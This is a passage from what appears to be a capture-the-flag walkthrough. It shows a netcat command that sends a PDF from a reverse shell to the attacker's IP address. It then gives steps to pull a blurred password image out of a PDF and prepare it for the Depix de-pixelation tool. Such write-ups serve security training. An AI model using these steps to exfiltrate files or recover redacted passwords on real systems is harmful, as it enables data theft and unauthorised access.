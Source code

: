 And sending a file from our reverse shell can be done like this:

```
nc -q 0 10.10.14.5 9000 < 'Using OpenVAS.pdf'
```

Note: we use the flag ```-q 0``` to close the connection automatically once the file transfer is complete.

## Dealing with blurred text (passwords) in PDF documents

First, we need the following tool:

```
sudo apt-get install poppler-utils
```

Now we are ready to extract the blurred text:

```
pdfimages file.pdf pass.png
```

We extracted the image successfully but it’s ```.ppm``` (in spite of the earlier command) so we to need to convert it to ```.png``` using a tool called pnmtopng.

```
sudo apt install netpbm
```

The next step:

```
pnmtopng pass.png-000.ppm > password.png
```

To inspect the file we just got, we could use this command:

```
file password.png
```

And the output may look like this:

```
password.png: PNG image data, 420 x 15, 8-bit colormap, non-interlaced
```

Another thing to note, that the Depix tool (used in the next step) needs the image to be in RGB mode. With the help of this simple Python script we can do just that:

```
from PIL import Image

# Load the image
image = Image.open("password.png")

# Convert the image to RGB mode
rgb_image = image.convert("RGB")

# Save the new image
rgb_image.save("rgb_password.png")

print("Image converted to RGB mode and saved successfully.")
```
